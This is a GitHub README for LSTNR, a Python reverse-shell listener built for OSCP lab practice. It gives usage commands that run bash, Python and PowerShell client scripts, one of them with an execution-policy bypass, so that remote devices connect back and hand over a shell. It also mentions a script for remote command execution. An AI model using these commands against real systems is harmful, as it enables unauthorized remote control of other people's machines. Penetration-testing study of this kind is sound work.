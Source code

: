 https://github.com/bwithe/lstnr?tab=readme-ov-file#lstnr
https://github.com/bwithe/lstnr?tab=readme-ov-file#disclaimer
https://github.com/bwithe/lstnr?tab=readme-ov-file#usage
https://github.com/bwithe/lstnr?tab=readme-ov-file#screenshot-examples
https://github.com/bwithe/lstnr?tab=readme-ov-file#troubleshooting

# LSTNR
Python server that receives shell connections from remote devices. 

Remote devices can be managed from a Command Line Interface (CLI)

<img width="666" alt="Screenshot 2025-01-03 at 6 36 01 PM" src="https://github.com/user-attachments/assets/9f1a5adb-3981-42cb-9855-3d847ec16c53" />

# DISCLAIMER
This is only for testing purposes, not intended for anything illegal. I was testing out ways to manage multiple connections while doing the OSCP labs. #Hobbies

# Download LSTNR

```git clone github.com/bwithe/LSNTR```

# USAGE

1. Start LSTNR
    - `python3 lstnr.py -p <PORT_TO_LISTEN>`

2. Have CLIENT connect to LSTNR
    - Linux / MacOS
      - `bash client.sh -p <LSTNR_SERVER_PORT> -s <LSTNR_SERVER_IP>`
      - `python3 client.py -p <LSTNR_SERVER_PORT> -s <LSTNR_SERVER_IP>`
     
    - Windows
        - `powershell -ep bypass .\client.ps1 -p <LSTNR_SERVER_PORT> -s <LSTNR_SERVER_IP>`

# Screenshot examples:
- Client connects to <LSTNR_SERVER>
<img width="702" alt="Screenshot 2025-01-04 at 10 49 03 PM" src="https://github.com/user-attachments/assets/c3027a17-1340-4f64-ac6c-776046003fd9" />

- LSTNR Server catches connection, and is able to manage remote device
<img width="722" alt="Screenshot 2025-01-04 at 10 48 47 PM" src="https://github.com/user-attachments/assets/4725cf8a-4ab0-47b7-9d36-acf0e5256f99" />


# TROUBLESHOOTING
- If you are having issues getting the username and hostname, please use `conquer.py`
    - `conquer.py` is the same script as `lstnr.py` however, it doesn't do anything fancy. It allows remote command execution, with responses.
